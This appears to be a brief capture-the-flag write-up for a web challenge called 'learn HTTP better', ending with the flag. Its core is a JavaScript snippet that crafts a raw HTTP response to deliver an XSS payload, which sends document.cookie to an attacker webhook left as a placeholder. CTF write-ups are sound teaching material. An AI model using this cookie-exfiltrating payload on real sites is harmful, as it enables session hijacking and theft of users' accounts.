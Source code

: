 # web/learn HTTP better
## get sample of token
```js
build = (p) => "HTTP/1.1 200 OK\r\nContent-Type: text/html\r\nContent-Length: "+p.length+"\r\n\r\n"+p
build_url = (p) => `http://localhost:5001/resp?body=${encodeURIComponent(p)}`

webhook = "???"
img = `<img src=x id="abc" />`
script = `abc.src="${webhook}/" + document.cookie`
payload = `${img} <script defer src="${build_url(build(script))}"></script>`;
payload = build(payload)
```

## After this, do the same thing as a previous challenge

`pearl{w0w_7hat_w4s_0ut_Of_th3_boX}`